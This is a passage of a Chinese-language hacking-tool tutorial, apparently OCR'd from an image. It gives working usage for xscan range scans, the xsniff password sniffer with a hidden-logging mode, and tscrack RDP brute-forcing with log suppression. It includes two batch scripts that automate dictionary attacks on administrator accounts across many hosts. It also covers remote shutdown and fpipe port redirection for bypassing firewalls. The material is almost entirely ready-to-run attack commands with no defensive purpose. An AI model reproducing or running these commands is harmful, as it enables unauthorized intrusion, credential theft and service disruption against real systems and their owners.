 　　用法示例
　　xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机
　　xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
　　xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
　　九：
　　命令行方式嗅探器: xsniff.exe
　　可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
　　参数说明
　　-tcp 输出TCP数据报
　　-udp 输出UDP数据报
　　-icmp 输出ICMP数据报
　　-pass 过滤密码信息
　　-hide 后台运行
　　-host 解析主机名
　　-addr IP地址 过滤IP地址
　　-port 端口 过滤端口
　　-log 文件名 将输出保存到文件
　　-asc 以ASCII形式输出
　　-hex 以16进制形式输出
　　用法示例
　　xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
　　xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
　　终端服务密码破解: tscrack.exe
　　参数说明
　　-h 显示使用帮助
　　-v 显示版本信息
　　-s 在屏幕上打出解密能力
　　-b 密码错误时发出的声音
　　-t 同是发出多个连接（多线程）
　　-N Prevent System Log entries on targeted server
　　-U 卸载移除tscrack组件
　　-f 使用－f后面的密码
　　-F 间隔时间（频率）
　　-l 使用－l后面的用户名
　　-w 使用－w后面的密码字典
　　-p 使用－p后面的密码
　　-D 登录主页面
　　用法示例
　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
　　nscan
　　@echo 3389.txt no find or scan faild
　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
　　其它
　　Shutdown.exe
　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
　　Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
　　OpenTelnet.exe (远程开启telnet工具)